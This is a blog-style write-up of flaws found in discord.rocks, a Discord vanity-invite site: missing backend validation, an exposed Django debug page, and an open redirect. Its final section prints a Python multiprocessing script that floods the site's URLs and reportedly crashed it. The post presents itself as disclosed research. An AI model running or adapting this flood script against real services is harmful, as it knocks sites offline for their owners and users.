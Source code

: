 ```yaml
---
title: How I "Hacked" discord.rocks
author: wuemeli
description: >
  I recently identified some security vulnerabilities in discord.rocks, a vanity invite generator for Discord servers. Although I informed the website owner and the issues have been resolved, I'd like to share my process and findings to highlight the importance of robust security measures.
---
```


## Introduction

I had already informed the owner of the website, and he fixed the security leaks. Additionally, what I did was not hacking; I merely identified some security vulnerabilities. Furthermore, this process was quite simple, and anyone could do it. So, let’s begin:

Discord.rocks is a free-to-use vanity invite generator: “Discord.rocks is a vanity invite generator that allows you to create personalized, easy-to-remember invites for your Discord server. Stand out from the crowd and make it easier for your friends, community, or customers to join your server

![Landing Page](/pictures/blog/discord.rocks/LandingPage.webp)

If you don’t have Level 3 Discord Server boosts, discord.rocks is the perfect way to get your own personal Vanity URL. The website is coded in Python and uses Django as the backend.

## Form Input Validation

![Form Validation](/pictures/blog/discord.rocks/Vanity.webp)

This happens when I don’t want to type anything.

![Before Form Change](/pictures/blog/discord.rocks/FrontendBefore.webp)

After

![After Form Change](/pictures/blog/discord.rocks/FrontendAfter.webp)

Now, I thought there should be backend validation, but I was wrong. I now know I could create something like this:

![Something](/pictures/blog/discord.rocks/smth.webp)

## The Exploited URLs

For regular users, it would appear like this:

![Regular URL](/pictures/blog/discord.rocks/Reg.webp)

A Normal URL
You noticed that I attempted to inject some scripts, but it didn’t work. I also somehow managed to bypass the Discord limit, redirecting it to my website instead of a Discord invite link. Additionally, I couldn’t perform SQL injection or something similar because I didn’t know which database they used. (I will discuss this further in this post.) With this, I could override the default 404 error to access some information:

![Django](/pictures/blog/discord.rocks/Django.webp)

This helped me see all the paths and confirmed that it uses Django. It was quite amusing exploiting this website and how easy it was. So, always consider implementing backend validation.

## Overloading the Databases (Site Crash)

You may have noticed these 4000 users. I achieved this with a simple script to overload the website. Every time you visit a vanity URL, it saves the usage count into the database. Somehow, this process was slow, especially in the backend. User visits were getting redirected, and the server needed about 600ms to save the data to the database. With this in mind, I wrote this Python script:

```py
import multiprocessing as mp
import requests

def red(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/wuemeli"))

def blue(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/"))
    
def main(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/"))

def wuemeli(x):
    for i in range(x): 
        print(requests.get("https://discord.rocks/red/uwu"))

def my_func(x):
    red(1000)
    blue(1000)
    main(1000)
    wuemeli(1000)

def main():
    pool = mp.Pool(mp.cpu_count())
    pool.map(my_func, range(0, 1000))

if __name__ == "__main__":

    main()
```


I ran this script five times, and the site became overloaded, ultimately crashing. Then, I encountered a database error, but unfortunately, I forgot to take a screenshot, and I don’t want to overload the site again.

